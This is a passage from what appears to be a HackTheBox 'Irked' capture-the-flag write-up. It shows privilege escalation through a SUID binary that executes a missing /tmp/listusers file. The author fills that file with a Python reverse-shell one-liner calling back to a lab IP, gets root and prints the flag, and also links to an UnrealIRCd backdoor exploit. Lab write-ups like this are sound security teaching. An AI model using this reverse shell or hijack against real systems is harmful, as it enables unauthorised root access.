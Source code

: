 ```
- In above result list, I think most of them are set the SUID root binary, and most of them are common binary file except 'viewuser'
- So let's check it detaily.

![](./IMG/33.png)
- Ok, binary file is hard to read.
- Execute it.

![](./IMG/34.png)
- It will list the user and ip address
- And there is an error in the bottom of result.
```
sh: 1: /tmp/listusers: not found
```

![](./IMG/35.png)
- So, it should have a file named listusers in ```/tmp```, but it doesn't exist now.
- Maybe I can create my own one with reverse shell

### Privilege Escalation 

- Create listusers file with reverse shell payload
```
touch listusers
echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.17.145",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'" > listusers
chmod 777 listusers
```

![](./IMG/36.png)

![](./IMG/37.png)
- Execute viewuser

![](./IMG/38.png)
- Check nc listener, the reverse shell will be response

![](./IMG/39.png)
- Get root flag:
```
784d48c5e9cc29f49ac382e072e646e7
```

![](./IMG/40.png)


## Reference 

- [(Discussion)HTB-Irked](https://forum.hackthebox.com/t/irked/1094/27)
- [(Writeup)HTB-Irked](https://thehoustonhacker.com/2019/04/27/hackthebox-irked/)

- [(HackTrick)rpcbind](https://book.hacktricks.xyz/network-services-pentesting/pentesting-rpcbind)
- [RPC Program Numbers](https://www.iana.org/assignments/rpc-program-numbers/rpc-program-numbers.xhtml)
- [(HackTrick)irc](https://book.hacktricks.xyz/network-services-pentesting/pentesting-irc)
- [Hexchat installation](https://installati.one/install-hexchat-kalilinux/)
- [Hexchat official Site](https://hexchat.github.io/)

### Unreal 3.2.8.1 backdoor


- [(GITHUB)UnrealIRCd 3.2.8.1 Backdoor](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor)
```